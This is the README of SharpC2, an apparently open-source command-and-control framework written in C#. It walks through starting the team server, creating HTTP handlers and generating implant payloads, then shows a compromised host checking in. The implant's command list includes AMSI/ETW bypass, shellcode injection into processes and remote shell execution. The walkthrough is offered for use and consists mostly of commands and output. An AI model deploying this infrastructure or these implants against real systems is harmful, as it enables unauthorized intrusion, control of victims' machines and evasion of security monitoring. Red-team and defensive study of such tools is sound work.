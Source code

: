 [![Build Status](https://travis-ci.com/SharpC2/SharpC2.svg?branch=main)](https://travis-ci.com/SharpC2/SharpC2)
[![Documentation Status](https://readthedocs.org/projects/sharpc2/badge/?version=latest)](https://sharpc2.readthedocs.io/en/latest/?badge=latest)

# SharpC2

SharpC2 is a Command and Control Framework written in C#.

The solution consists of an ASP.NET Core Team Server, a .NET Framework Implant, and a .NET Client.

## Quick Start

The quickest way to have a play with the framework is clone the repo, then build and run the Debug versions.

```
PS C:\Tools\SharpC2> dotnet build

  Client -> C:\Tools\SharpC2\Client\bin\Debug\net6.0\SharpC2.dll
  TeamServer -> C:\Tools\SharpC2\TeamServer\bin\Debug\net6.0\TeamServer.dll

Build succeeded.
    0 Warning(s)
    0 Error(s)

Time Elapsed 00:00:01.98
```

### Start the Team Server

```
PS C:\Tools\SharpC2> cd .\TeamServer\bin\Debug\net6.0\
PS C:\Tools\SharpC2\TeamServer\bin\Debug\net6.0> dotnet TeamServer.dll -p Passw0rd!
info: Microsoft.Hosting.Lifetime[14]
      Now listening on: https://0.0.0.0:8443
info: Microsoft.Hosting.Lifetime[0]
      Application started. Press Ctrl+C to shut down.
info: Microsoft.Hosting.Lifetime[0]
      Hosting environment: Production
info: Microsoft.Hosting.Lifetime[0]
      Content root path: C:\Tools\SharpC2\TeamServer\bin\Debug\net6.0
```

**Note**:  If the server starts in `Development` mode, it will only listen for connections on the `localhost`.  To ensure it runs in `Production` mode (and therefore listen for connections on all interfaces) set the `ASPNETCORE_ENVIRONMENT` variable to `Production`.

### Start the Client

```
PS C:\Tools\SharpC2\Client\bin\Debug\net6.0> dotnet SharpC2.dll -s localhost -p 8443 -n rasta -P Passw0rd!

  ___ _                   ___ ___
 / __| |_  __ _ _ _ _ __ / __|_  )
 \__ \ ' \/ _` | '_| '_ \ (__ / /
 |___/_||_\__,_|_| | .__/\___/___|
                   |_|
    @_RastaMouse
    @_xpn_


Server Certificate
------------------

[Subject]
  CN=localhost

[Issuer]
  CN=localhost

[Serial Number]
  67B4A5487F67745B

[Not Before]
  25/02/2021 21:01:43

[Not After]
  25/02/2022 21:01:43

[Thumbprint]
  B968C8D9C2B40F4AD7A46C92B0B700DEE46492FE

accept? [y/N] >
```

### Create & Start HTTP Handler

Use the `create` command to create a new handler.  The usage is: `create <name> <type>`. Valid types are `HTTP`, `TCP` and `SMB`.

```
[drones] > handlers
[handlers] > list

No Handlers

[handlers] > create demo-http HTTP
[+] Handler "demo-http" created.
```

When a handler has been created, you can set its parameters with the `set` command.  The usage is: `set <handler> <parameter> <value>`.

```
[handlers] > set demo-http BindPort 8080
[+] BindPort set to 8080

[handlers] > set demo-http ConnectPort 8080
[+] ConnectPort set to 8080
```

Finally, run the handler with the `start` command.  The usage is: `start <handler>`.

```
[handlers] > start demo-http
[+] Handler "demo-http" started.

[handlers] > list

Name       Running
----       -------
demo-http  True
```

### Generate a Payload for the Handler

Use the `payload` command to generate a payload for a handler.  The usage is: `payload <handler> <format> <path>`.  Valid formats are: `Exe`, `Dll`, `Raw` & `Svc`.

```
[drones] > payload demo-http Exe c:\payloads\http-drone.exe
[+] 164352 bytes saved.
```

Execute the payload, and the Drone should check-in.

```
[+] Drone fea75efa53 checked in from Daniel@Ghost-Canyon.

[drones] > list

Guid        Parent  Address        Hostname      Username  Process     Pid    Integrity  Arch  LastSeen
----        ------  -------        --------      --------  -------     ---    ---------  ----  --------
fea75efa53  -       192.168.1.229  Ghost-Canyon  Daniel    http-drone  17300  Medium     x64   18/12/2021 16:11:20
```

### Interacting with a Drone

Interact with a Drone via the `interact` command.  Usage is: `interact <guid>`.

```
[drones] > interact fea75efa53
[fea75efa53] > help

Name              Description
----              -----------
abort             Abort a running task
back              Go back to the previous screen
bypass            Set a directive to bypass AMSI/ETW on tasks
cat               Read a file as text
cd                Change working directory
execute-assembly  Execute a .NET assembly
exit              Exit this Drone
getuid            Get current identity
help              Print a list of commands and their description
link              Link to an SMB Drone
load-module       Load an external Drone module
ls                List filesystem
mkdir             Create a directory
overload          Map and execute a native DLL
ps                List running processes
pwd               Print working directory
rm                Delete a file
rmdir             Delete a directory
run               Run a command
services          List services on the current or target machine
shell             Run a command via cmd.exe
shinject          Inject arbitrary shellcode into a process
sleep             Set sleep interval and jitter
upload            Upload a file to the current working directory of the Drone

[fea75efa53] > getuid
[+] Tasked Drone to run getuid: 3989657f56.
[+] Drone checked in. Sent 176 bytes.
[+] Drone task 3989657f56 is running.

GHOST-CANYON\Daniel

[+] Drone task 3989657f56 has completed.
```

## Documentation

See more documentation on [Read the Docs](https://sharpc2.readthedocs.io/en/latest).